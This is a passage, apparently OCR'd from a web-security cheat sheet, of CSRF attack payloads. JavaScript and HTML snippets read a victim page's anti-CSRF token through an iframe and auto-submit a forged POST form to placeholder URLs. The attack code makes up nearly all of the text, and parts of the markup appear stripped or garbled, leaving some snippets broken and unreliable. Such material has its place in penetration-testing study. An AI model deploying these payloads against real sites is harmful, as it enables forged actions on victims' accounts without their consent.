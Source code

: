 ```javascript
      //console.log("The token is: " + input.value);
      // Use the token to submit the form
      submitFormWithTokenJS(input.value)
    }
  }
  // Make the request
  xhr.send(null)
}

var GET_URL = "http://google.com?param=VALUE"
var POST_URL = "http://google.com?param=VALUE"
getTokenJS()
```

### **Steal CSRF Token and send a Post request using an iframe, a form and Ajax**

```html
<form
  id="form1"
  action="http://google.com?param=VALUE"
  method="post"
  enctype="multipart/form-data">
  
  
  
</form>

<script type="text/javascript">
  function f1() {
    x1 = document.getElementById("i1")
    x1d = x1.contentWindow || x1.contentDocument
    t = x1d.document.getElementById("token").value

    document.getElementById("token").value = t
    document.getElementById("form1").submit()
  }
</script>
[http://google.com?param=VALUE](http://google.com?param=VALUE)

```

### **Steal CSRF Token and sen a POST request using an iframe and a form**

```html
[http://google.com?param=VALUE](http://google.com?param=VALUE)

<script>
  function read() {
    var name = "admin2"
    var token =
      document.getElementById("iframe").contentDocument.forms[0].token.value
    document.writeln(
      '<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">'
    )
    document.writeln(
      '  '
    )
    document.writeln(
      ''
    )
    document.writeln(
```